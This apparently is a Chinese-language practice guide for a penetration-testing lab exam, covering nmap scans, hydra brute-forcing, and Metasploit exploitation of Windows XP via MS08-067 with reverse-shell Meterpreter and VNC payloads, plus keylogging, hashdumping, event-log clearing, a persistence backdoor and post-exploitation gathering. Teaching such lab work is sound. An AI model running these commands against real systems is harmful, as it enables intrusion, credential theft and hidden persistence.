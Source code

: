 # Practical Exam 1 Practice

> Author: Dongyi Guo
>
> Doc Version : 1.2.1

* 在正式的考试中，您将只使用Kali Linux，其他设备的配置仅为个人练习使用。
* 在本文件中，所有 ```<...>``` 的位置要求您自行寻找到相关的信息来填入。

## Question 1

#### Linux 网络设置 (Kali, Metasploitable2):

通过以下命令为Linux设备设置IP：

```bash
ip a a <IP地址>/<网络前缀> dev <网络接口>
```

通过以下命令检查当前设备IP：

```bash
ip a
```

或者：

```bash
ifconfig
```

留意对应网络接口的 ```inet``` 参数来查看 IPv4 地址。在考试中只需要对Kali Linux进行网络设置，对Metasploitable2进行配置时（使用msfadmin账号），注意使用 ```sudo``` 。

#### Windows 网络设置:

* 在正式的考试中无需配置Windows虚拟机。

在 Windows 7 或更高版本的Windows上设置网络：

* 去到 Network and Sharing Center，点击 Connections 后面的网络接口。
* 点击 Properties。
* 高亮选择 "Internet Protocol Version 4 (TCP/IPv4)"，点击 Properties。
* 在新窗口中设置IP和子网掩码。

对于 Windows XP：

* 去到 Control Panel （控制面板）。
* 双击 Network Connection。
* 双击存在的网络接口。
* 选择 Properties。
* 高亮选择 "Internet Protocol [TCP/IP]", 点击 Properties。
* 在新窗口中设置IP和子网掩码。

## Question 2

通过 ```nmap``` 找到网络中活动的主机：

```bash
nmap -sn <网络地址/网络前缀>
```

对目标主机进行端口扫描：

```bash
nmap <主机地址>
```

如需获取目标主机系统信息：

```bash
nmap -O -v <主机地址>
```

如果在自主练习时需要关闭防火墙：

* 在开始菜单中搜索 "Windows Firewall"，并点选那个只有这两个单词的选项。
* 在侧边栏菜单中点选 "Turn Windows Firewall on or off"。
* 关闭所有防火墙服务。

## Question 3

通过 ```hydra``` 可以brute-force密码验证，在给定一个登录名，主机和被突破的服务协议的情况下，您同时需要一个密码字典：

```bash
hydra -l <登录名> -P <密码字典文件路径> <主机地址> <服务协议> -t <并行任务数量>
```

可以在：

```bash
man hydra
```

获取所有 ```hydra``` 支持的服务协议。

## Question 4

Windows XP 可用的攻破方式有：

* VNC injection, 会返回一个图形界面可供检视和操作.
* Meterpreter, 会返回一个命令行界面，提供多种功能.

启动Metasploit Framework (命令提示符为: ```msf6>``` 之后)，对于 VNC injection：

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set LHOST <Kali的IP地址>
set RHOST <XP的IP地址>
set ViewOnly false
exploit
```

对于 Meterpreter：

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set LHOST <Kali的IP地址>
set RHOST <XP的IP地址>
exploit
```

在 Meterpreter 会话中 (命令提示符为: ```meterpreter>``` 之后)，可用的命令有：

```bash
cd <文件目录> # 切换文件目录
ls # 列出当前文件目录内容
pwd # 显示当前文件目录
sysinfo # 显示系统信息
ipconfig # 显示网络配置
screenshot # 截图屏幕
hashdump # 打印设备用户和其加密过的密码
search -f <文件名> # 从当前文件目录开始搜寻文件
download <远程路径> <本地路径> # 下载远程文件到本地位置
# download 只识别Unix系统中反斜杠('/')来表示文件层级，对于Windows的正斜杠('\'),
# 可以替换成双正斜杠('\\')'或者改回反斜杠

clearev # 清除事件记录

getpid # 获取当前寄生进程ID
ps # 列出当前系统进程
migrate <processID> # 通过声明ID移植到新的进程
# 按键记录器以下仅在寄生进程权限较高时（如文件管理器进程）可用
keyscan_start # 启动按键记录
keyscan_dump # 获取已生成的按键记录
keyscan_stop # 停止按键记录

# 将当前Meterpreter会话放至后台
background
# 或者
bg
# 或者 ctrl + z
```

如需给Meterpreter会话的目标主机添加后门，后台该会话，然后在Metasploit Framework中：

```bash
use exploit/windows/local/persistence
set LHOST <Kali的IP地址>
set LPORT 445
set STARTUP SYSTEM # SYSTEM不要小写
sessions # 获取Meterpreter会话ID
set session <Meterpreter会话ID> 
exploit
```

然后开始监听后门的回执：

```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <Kali的IP地址>
set LPORT 445
run # 和exploit是一样的
```

之后，若XP重启，其会发送一个链接请求到Kali，之前的监听窗口会自动进入Meterpreter。

## MSF Essentials

在Metasploit Framework的窗口中：

```bash
search <关键字> # 通过关键字寻找漏洞
show options # 显示当前漏洞和payload中可配置的参数
show paylaods # 显示当前漏洞可用的payload
show targets # 显示当前漏洞可用的目标
```

* 可以使用 ```setg``` 来取代 ```set``` ，这样如果需要在多个漏洞模组之间切换，如果参数有同名的，参数值将会被保留。
* 参数名大小写不敏感，但是参数值，特别是在 ```show options``` 中给定可接受的参数值的 (Accepted: ...)， 必须严格遵守大小写：

```bash
set sTArTuP SYSTEM # 彳亍
set STARTUP system # 不彳亍
```

## Post-Exploitation Information Gathering

* 这通常意味着我们需要对目标已经有一个有管理员权限的会话。

如果您有一个reverse shell的会话想升级到Meterpreter会话，可使用：

```bash
sessions # 检查reverse shell会话的会话ID
sessions -u <ReverseShell会话ID>
```

如果您有一个一般权限的Meterpreter会话, 想找到漏洞来跃迁您的权限，可使用：

```bash
sessions # 检查Meterpreter会话的会话
use post/multi/recon/local_exploit_suggester
set session <UnprivilegedMeterpreter会话ID>
run
```

来列出可用的漏洞来跃迁目标权限。

获得了管理员权限的会话之后，可以在MSF中搜索获取信息的模组：

```bash
# 对于 Linux
search post/linux/gather
# 对于 Windows
search post/windows/gather
```

比较常用的信息获取模组有：

```bash
use post/<linux/windows>/gather/checkvm # 检查目标是否为虚拟机，如果是则列出虚拟化服务
use post/linux/gather/checkcontainer # 检查目标是否为容器
use post/linux/gather/hashdump # 显示目标用户和加密过的密码
use post/windows/gather/smart_hashdump # 显示目标用户和加密过的密码并保存至 /root/.msf4/loot/
use post/linux/gather/enum_protections # 显示目标设备的安全措施
use post/linux/gather/enum_configs # 显示目标设备的服务配置文件并保存至 /root/.msf4/loot/
use post/linux/gather/enum_network # 显示目标设备的网络配置信息并保存至 /root/.msf4/loot/
use post/linux/gather/enum_system # 显示目标设备的系统信息并保存至 /root/.msf4/loot/
```

将 ```session``` 参数设置为管理员权限的Meterpreter会话ID就可以开始获取信息了：

```bash
set session <Meterpreter会话ID>
run
```


